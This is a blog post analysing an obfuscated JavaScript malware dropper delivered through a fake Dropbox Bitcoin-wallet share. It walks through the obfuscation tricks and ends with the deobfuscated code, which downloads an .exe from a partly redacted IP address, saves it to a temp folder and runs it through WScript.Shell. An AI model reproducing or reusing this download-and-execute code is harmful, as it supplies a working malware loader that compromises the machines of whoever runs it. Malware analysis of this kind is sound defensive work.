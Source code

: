 ```yaml
---
layout: post
title:  "Reverse-engineering an obfuscated JavaScript file and lessons learned"
date:   2016-05-26 17:43:17 +0200
categories: sec
---
```


Yesterday, I got an email from Dropbox saying that somebody had shared their Bitcoin wallet with me.

![](/static/dropbox-btc-backup-js-deobfs.png)

This looks like an accident, right? And too good to be true? Probably is.

Email appeared to really come from Dropbox. The sending IP was allowed by the SPF policies (of course, that's no guarantee, but that's not what I wanted to spend time on).

I got curious and downloaded the file. It had the `.zip` file extension but turned out to actually be a RAR-archive (weird). I unrar-ed it and got two files, one `.js` and one `.exe`. I decided to take a look on the JavaScript file, never having de-obfuscated JavaScript before. 

## Some JavaScript sourcery used. 

The obfuscated code relies on JavaScript idiosyncrasies, most of which were unfamiliar to me, since I'm not a JS developer.

In JavaScript, you can call methods on objects with `instance["method"]()`, allowing you to pass the method name as data. After discovering the encryption-function, this was a common pattern.

{% highlight javascript %}
→ "string".substr(0, 1)
← "s"
→ "string"["substring"](0, 1)
← "s"

← "string".length
← 6
→ "string"["length"]
← 6
{% endhighlight %}

In fairness to JavaScript, most other interpreted languages have this as well (for Python, see `__getattr__`). 

There were a lot of functions with random names (e.g. `bCCg()`) that accepted no arguments but returned one character only. Sometimes they had wrapped the character inside an array and returned a specific element of the array. Example:

{% highlight javascript %}
function bCCg() {
   var ZRZQ = [(9), "f", 4][1];
   return ZRZQ;
}

// Rewritten to
function bCCg() { return "f"; }
{% endhighlight %}

which translates to simply returning returning `"f"`.

Another JS-"feature" that was used to hide data was concatenating (using the `+` operator) a tuple and a string. In JS, of course the last element of the string is concatenated to the string the tuple of concatenated to. Oh, and if it happens to be an integer, it's implicitly parsed to it's string representation. This all makes total sense, right? 

In case it doesn't, here's an example.

{% highlight javascript %}
→ "H" + (7, 6, 5, 3, 1, "i)
← "Hi"
→ "You are number" + ("One", 1)
← "You are number 1"
{% endhighlight %}

And an example usage is the function that started out as 

{% highlight javascript %}
function YWzqkGP() {
    var fTnKjVj = [UHRF() + "h" + prLEsog() + hiz()];
    var YfMUj = [ekYr() + CfK() + "d" + xoHWF() + "A" + "t"];
    var ZQGc = fTnKjVj[0] + YfMUj[0];
    return ZQGc;
}
{% endhighlight %}

After cleaning it up, it looks like this. 

{% highlight javascript %}
function YWzqkGP() {
    var a = "char";
    var b = "C" + (9299, 6662, 8019, 8743, 5179, 5958, 4605, 3648, 7468, 7969, "o") + "d" + "e" + "A" + "t";
    return a + b;
}
{% endhighlight %}

It should be obvious that `YWzqkGP()` is just a very complicated way of writing `"charCodeAt"`.

A lot time is spent maximizing the code length. This example is *AFTER* cleaning up the tricks described above. 

{% highlight javascript %}
function EilkPvf(a) {
    return ["f", "r", "o", "m", "C", "h", "a", "r", "C", "o", "d", "e"][a];
}

function rFeBmU() {
    return EilkPvf(0) + EilkPvf(1) + EilkPvf(2) + EilkPvf(3) + EilkPvf(4) + EilkPvf(5) + EilkPvf(6) + EilkPvf(7) + EilkPvf(8) + EilkPvf(9) + EilkPvf(10) + EilkPvf(11);
}
{% endhighlight %}

We see that all calls to `rFeBmU()` can be replace with `"fromCharCode"`. Smells like code, probably to be injected with the `instanceName["methodName"]` method.

## What is it trying to do? 

This obfuscated javascript features a fairly complicated encryption function, which I have not yet reverse engineered.

Instead, I isolated it and fed the encrypted strings to it to decrypt them. Seemed easier. This line was interesting to me

{% highlight javascript %}
→ pulPiZ("0160500490551240911021201030991051250880790 [CUTOFF] 018029");
← "http://[REDACTED].103/dma_lockoader_Crypt.exe"
{% endhighlight %}

The code is trying to load [WScript](https://msdn.microsoft.com/en-us/library/at5ydy31%28v=vs.84%29.aspx)) via ActiveX, which according to the documentation can "output information to the default output device (either a Windows dialog box or the command console)". 

After de-obfuscating the last big function, this is what I ended up with.

{% highlight javascript %}
function GMU(rtwjdld, kdkndmd) {}
function JqyQ() {
    var wscripteval = eval("WScript");
    var scriptfullname = wscripteval["ScriptFullName"];
    var activex_object = new ActiveXObject("MSXML2.XMLHTTP");
    activex_object["send"]();

    if (typeof WScript["echo"] == "unknown") {
        activex_object.open("GET", "http://[REDACTED].103/dma_lockoader_Crypt.exe", 0);
    }

    var fsobj = new ActiveXObject("Scripting.FileSystemObject");
	if (activex_object.Status == 200) {
        var adodb_stream = new ActiveXObject("ADODB.Stream");
        var path_probably = fsobj.GetSpecialFolder(2) + '\\' + fsobj.GetTempName();
        adodb_stream.Open();
        adodb_stream.Type = 1;
        var wscript_shell = new ActiveXObject("WScript.Shell");
        adodb_stream.Write(activex_object.ResponseBody);

        adodb_stream.Position = 0;
        adodb_stream.SaveToFile(path_probably);             
           
        adodb_stream.Close"]();
        wscript_shell.run("cmd /c " + path, 0);
    }
    GMU(fsobj, scriptfullname);
}

{% endhighlight %}

They are trying to download a `.exe` file, save it and execute it. How classic. I have on idea what the purpose of the empty `GMU` function is though.

## Aftermath

I contacted Dropbox and the hosting provider in the WHOIS record for the IP address in the URL. 

